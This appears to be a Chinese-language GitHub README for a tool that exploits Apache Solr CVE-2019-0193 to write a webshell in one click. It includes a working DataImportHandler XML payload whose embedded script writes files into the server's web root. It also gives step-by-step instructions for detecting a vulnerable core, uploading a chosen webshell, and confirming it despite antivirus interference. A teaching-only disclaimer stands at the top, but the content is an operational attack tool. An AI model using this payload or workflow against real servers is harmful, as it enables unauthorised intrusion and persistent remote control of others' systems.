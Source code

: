 # 项目声明
只用于信息安全教学交流，请勿用于非法测试和攻击。

# ApacheSolrRCE
ApacheSolrRCE（CVE-2019-0193）一键写shell，原理是通过代码执行的java文件流写的马。

[Apache-Solr-CVE-2019-0193-漏洞利用](https://jdr2021.github.io/2022/09/12/Apache-Solr-CVE-2019-0193-%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/)

注：作者本人比较菜，如果你有bug或者有别的需求，请自行下载代码修改。


# 工具说明
由于互联网上流传的payload都是命令执行，且不方便上webshell，因此写了这段payload（回显123456时，代表写入成功）。

注：工具只能辅助测试，如果工具写不进去，建议手写。

```
<dataConfig>
<dataSource name="streamsrc" type="ContentStreamDataSource" loggerLevel="TRACE" />
  <script><![CDATA[
          function poc(row){
var buf = new java.io.BufferedWriter(new java.io.FileWriter(java.net.URLDecoder.decode(java.lang.Thread.currentThread().getContextClassLoader().getResource("").getPath().toString().replaceAll("file:\/", "").split("WEB-INF")[0]+"1.txt")));buf.write(new java.lang.String(java.util.Base64.getDecoder().decode("MTIzNDU2")));buf.close();
row.put("title",123456);
return row;

}

]]></script>

<document>
    <entity
        stream="true"
        name="entity1"
        datasource="streamsrc1"
        processor="XPathEntityProcessor"
        rootEntity="true"
        forEach="/RDF/item"
        transformer="script:poc">
             <field column="title" xpath="/RDF/item/title" />
    </entity>
</document>
</dataConfig>
```
# 工具用法

<img src="https://github.com/jdr2021/ApacheSolrRCE/blob/master/1663056645344.jpg">

先点检测，获得core，并且判断有没有漏洞。

在点击getshell即可。

注：将你的webshell，放在shell目录下，工具会自动加载你的webshell至下拉列表中。

<img src="https://github.com/jdr2021/ApacheSolrRCE/blob/master/1663056948552.jpg">

默认代理是http代理，端口是8080，代码里面写死了的，需要的自己编译修改即可。

<img src="https://github.com/jdr2021/ApacheSolrRCE/blob/master/1663057045317.jpg">

<font color="red">注：实际测试时发现，由于杀软问题，点击GETSHELL后，没有任何提示。但是有可能webshell是已经写上去了，建议打开burpsuite，在proxy->http history中看一下webshell的名字，然后访问一下。</font>

# 特别感谢

[solr_exploit](https://github.com/1135/solr_exploit)
